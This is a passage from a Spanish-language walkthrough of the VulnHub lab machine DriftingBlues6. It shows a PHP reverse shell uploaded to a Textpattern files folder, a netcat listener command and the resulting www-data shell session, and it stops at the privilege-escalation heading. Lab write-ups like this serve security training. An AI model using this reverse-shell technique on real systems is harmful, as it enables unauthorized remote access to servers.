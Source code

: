 Intentamos subir un archivo para generarnos la reverse shell y ya tenemos el path donde se va a guardar `/var/www/textpattern/files`.

![reverse-shell](/assets/img/commons/vulnhub/DriftingBlues6/reverse-shell.png){: .normal }

![files](/assets/img/commons/vulnhub/DriftingBlues6/files.png){: .normal }

## Explotación

---

Nos ponemos en escucha desde nuestra máquina atacante `sudo rlwrap nc -nlvp 443`, abrimos el archivo rs.php y generamos la conexión.

El archivo reverse shell que utilizamos, viene en nuestro parrot o kali, situado en `/usr/share/webshells/php/php-reverse-shell.php`.

```bash
❯ sudo rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.11.12.10] from (UNKNOWN) [10.11.12.36] 60617
Linux driftingblues 3.2.0-4-amd64 #1 SMP Debian 3.2.78-1 x86_64 GNU/Linux
 12:29:21 up 36 min,  0 users,  load average: 0.01, 0.54, 0.55
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ script /dev/null -c bash
www-data@driftingblues:/$ whoami
www-data
```


## Escalación de privilegios

---